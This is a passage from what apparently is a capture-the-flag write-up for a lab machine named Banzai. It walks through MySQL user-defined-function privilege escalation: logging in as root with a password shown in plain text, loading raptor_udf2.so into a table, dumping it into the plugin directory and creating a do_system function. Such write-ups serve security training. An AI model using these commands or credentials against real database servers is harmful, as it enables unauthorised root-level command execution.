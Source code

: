 ><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">From within MySQL, the following commands can be used to create a new table containing the path to the shared object, copying the same file under /usr/lib/mysql/plugin and creating a “do_system” function</span> 
<br>


![gif1](https://github.com/thehunt1s0n/media/blob/main/Banzai/giphy.gif?raw=true)


<br>
<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$ <span style="color:red">mysql -u root -p</span>
</div>
<br>

>EscalateRaftHubris123

<div style="background-color: #1e2124; padding: 10px;">
mysql> <span style="color:red">use mysql;</span>
</div>
<br>

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(14).png)

<div style="background-color: #1e2124; padding: 10px;">
mysql> <span style="color:red">create table foo(line blob);</span>
</div>
<br>

![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(15).png)

<div style="background-color: #1e2124; padding: 10px;">
mysql> <span style="color:red">insert into foo values(load_file('/dev/shm/raptor_udf2.so'));</span>
</div>
<br>

![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(16).png)

<div style="background-color: #1e2124; padding: 10px;">
mysql> <span style="color:red">select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';</span>
</div>
<br>

![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(17).png)

<div style="background-color: #1e2124; padding: 10px;">
mysql> <span style="color:red">create function do_system returns integer soname 'raptor_udf2.so';</span>
</div>
<br>

![image 18](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(18).png)
